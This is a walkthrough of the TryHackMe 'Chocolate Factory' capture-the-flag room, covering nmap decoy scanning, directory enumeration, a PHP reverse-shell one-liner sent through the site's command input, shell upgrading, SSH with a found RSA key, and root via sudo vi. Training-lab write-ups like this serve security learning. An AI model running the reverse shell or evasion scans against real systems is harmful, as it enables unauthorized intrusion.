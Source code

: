 
![intro](https://github.com/user-attachments/assets/50e81e51-d8d8-4b71-9227-35567c08f0f4)

# tryhackme-Chocolate Factory-writeup
This is a walkthrough for the tryhackme CTF Chocolate Factory. I will not provide any flags or passwords as this is intended to be used as a guide.

## Scanning/Reconnaissance

First off, let's store the target IP as a variable for easy access.

Command: export ip=xx.xx.xx.xx

Next, let's run an nmap scan on the target IP:
```bash
nmap -A -v $ip -D RND:10 -oN nmap.txt
```

Command break down:

-A: This flag enables aggressive scanning. It combines various scan types (like OS detection, version detection, script scanning, and traceroute) into a single scan.

-v: increases verbosity, providing more detailed output during the scan.

—$ip: provides the target IP we stored as the variable $ip.

-D RND:10 Nmap can send additional packets to confuse network intrusion detection systems (IDS) or hide the true source of the scan by randomly selecting up to 10 decoy IP addresses.

-oN nmap.txt: This option specifies normal output that should be saved to a file named “nmap.txt.

This scan reveals many open ports, but I'll just focus on the relavent ones:

![nmap](https://github.com/user-attachments/assets/6967f154-8e11-4172-b1bc-95659d16b9f1)

The web server on port 80 takes to you a login panel that uses a validate.php function. The nmap scan took a while so I also ran scans with gobuster and nikto.
```bash
gobuster dir -u $ip -w=/usr/share/wordlists/dirb/common.txt -x php,txt,jpg -o buster.txt
```
I checked out the home.php dir and it took me to the squirrel room, which has an command input. I will try to run a simple php reverse shell. Let's head to revshells.com, input your IP and desired port, and I'm going to use the PHP exec shell. I'm choosing a short php shell since the site clearly uses php for many of it's functions:
```bash
php -r '$sock=fsockopen("10.10.191.134",9001);exec("sh <&3 >&3 2>&3");'
```
On kali we'll run the netcat listener:
```bash
nc -lvnp 9001
```
We now a primative shell as www-data!
First, let's upgrade the shell for improved function and stability:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
```bash
export TERM=xterm
```
ctrl -z
```bash
stty raw -echo; fg
```
```bash
stty rows 16 columns 138
```
Taking a look at www-data's home directory we see validate.php, which includes a password for Charlie:

![charlie](https://github.com/user-attachments/assets/98932712-e5a2-4ebb-ba2c-3659b083fafd)

I tried to switch users to charlie with this password but no luck. Now that I think about it, the login on the web server displayed the validate.php function, so this is displaying the code behind that. Let's see what else we can find...
The file key_rev_key contains a key that will can answer the questions with:

![key_rev_key](https://github.com/user-attachments/assets/0f2222a6-1299-4d3a-a160-2bb78f147715)

Next, let's go to charlie's home dir. We don't have the permissions to cat user.txt but teleport contains an rsa key, most likely for charlie.

![rsa](https://github.com/user-attachments/assets/eddd0419-6723-46b8-893d-20a7bcb1b9d7)

This rsa key gives us everything needed to ssh as charlie:

![ssh](https://github.com/user-attachments/assets/1fb4f963-d1de-4885-9e05-979ce0ff0a6b)

Let's cd to charlies home dir and get the user.txt.
sudo -l looks interesting:
![sudo -l](https://github.com/user-attachments/assets/a4a09f4f-0d89-403c-816d-59d2ab4e5c8d)

Let's check that out on gtfobins.github.io
It worked!

![vi](https://github.com/user-attachments/assets/b9a17f0b-cfa4-4033-8b92-6453573789cd)

Now, we are root but we still need to find the flag. Let's upgrade the shell with the previous python3 pty command, and head to the root dir. I tried running python3 root.py but it didn't work. Then I tried python root.py and we are now the proud owners of the Chocolate Factory! 

![win](https://github.com/user-attachments/assets/2c32f827-80fd-4b8f-870c-1b342d436308)

I hope you enjoyed this CTF writeup.  
